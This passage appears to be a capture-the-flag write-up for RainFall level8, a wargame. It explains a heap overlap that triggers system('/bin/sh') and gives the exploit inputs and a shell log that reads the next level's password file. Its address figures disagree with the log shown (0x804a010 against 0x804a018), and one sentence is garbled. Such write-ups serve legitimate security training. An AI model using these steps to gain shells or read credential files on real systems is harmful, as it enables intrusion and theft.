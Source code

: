 Calculating the Offset and Target Byte:


- auth points to 0x804a008.

- We are interested in auth + 32, which is 0x804a008 + 32 = 0x804a028.

- service points to 0x804a010.


- The offset of interest within the SERVICE_BLOCK is 0x804a028 - 0x804a010 = 0x18 (decimal 24). So, the 32nd byte from auth is actually the 25th byte within the service block (0-indexed).


Step 3: Trigger the Vulnerability and Gain Shell

```
Input: login

The login block is executed:

if ( *(auth + 32) ) // This is the vulnerable check!
    system("/bin/sh");
else
    fwrite("Password:\n", 1, 10, stdout);
```


Since we've overwritten the SERVICE_BLOCK with 'a's, the byte at auth + 32 (which resides within the SERVICE_BLOCK) will now be 'a' (or some other non-zero value depending on the length of "aaaa..."). The if condition becomes true, and system("/bin/sh") is executed, giving us a shell.



# Exploiting

```
auth aaaa
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
login
```

Output:

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth aaaa
0x804a008, (nil)
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

We gain shell access, our meetup next challenge `level9`.
